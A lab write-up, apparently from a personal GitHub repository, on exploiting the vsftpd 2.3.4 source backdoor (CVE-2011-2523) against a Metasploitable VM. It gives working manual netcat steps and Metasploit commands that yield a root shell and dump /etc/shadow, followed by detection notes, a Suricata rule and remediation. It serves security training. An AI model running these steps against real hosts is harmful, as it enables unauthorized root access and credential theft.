


# vsftpd 2.3.4 — Backdoor (CVE-2011-2523)

This version of vsftpd got compromised somewhere around June–July 2011, when
someone slipped backdoor code straight into the source files on the project's
download server. This isn't a bug in how the service works. The server was
poisoned before anyone even installed it.

## Target
- IP: 192.168.56.102
- Port: 21 (FTP); the backdoor shell opens on port 6200
- Service: vsftpd 2.3.4

## CVE
CVE-2011-2523

## Attack type
Backdoor planted in the source code (supply chain compromise)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mechanism

The whole trick: if the username you send during FTP login contains `:)`, the
backdoor wakes up and the service opens a bind shell on port 6200. You don't even
need a valid password. Connect to that port and you're root.

---

## Method 1: Manual exploitation

### Step 1: Trigger the backdoor over FTP

```bash
nc 192.168.56.102 21
```

Once it connects, type:

USER backdoor:)
PASS anything


You can drop this connection afterwards (Ctrl+C). The backdoor stays up and port
6200 is now open.

### Step 2: Connect to the backdoor port

```bash
nc 192.168.56.102 6200
```

### Result



The moment it connects you land in a root shell, no authentication of any kind:

whoami → root
id → uid=0(root) gid=0(root)
uname -a → Linux metasploitable 2.6.24-16-server ...
cat /etc/shadow | head -5 → password hashes, right there with no restriction


---

## Method 2: Metasploit

### Commands

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Result



The module does the exact same thing under the hood, just automated. It sends the
`:)` payload and opens the session for you:

[+] Backdoor has been spawned!
[*] Meterpreter session 1 opened
meterpreter > getuid → Server username: root
meterpreter > sysinfo → Metasploitable, Ubuntu 8.04, i686
meterpreter > shell
cat /etc/shadow → confirms root access


---

## Detection (blue-team view)

A few things here should set off alarms for a real SOC team:
- A connection to port 6200. It's not a standard service and has no business being open.
- An FTP login with odd characters in the username field.
- A shell process spawning right after an FTP connection, with nothing legitimate tying the two together.
- Meterpreter / reverse shell traffic has a recognizable TCP handshake pattern toward a non-standard port.

## IDS signature (Suricata example)

alert tcp any any -> any 6200 (msg:"vsftpd 2.3.4 backdoor shell connection"; sid:9000001;)


## Remediation
- Don't run vsftpd 2.3.4, full stop. Upgrade to a current version.
- Verify package integrity before installing (checksums, signed repos).
- A firewall rule that blocks odd ports like 6200.
- Keep an eye on production servers for ports that open up unexpectedly.

## Screenshots
- `01_vsftpd_manual_root.png`
- `01_vsftpd_metasploit_root.png`
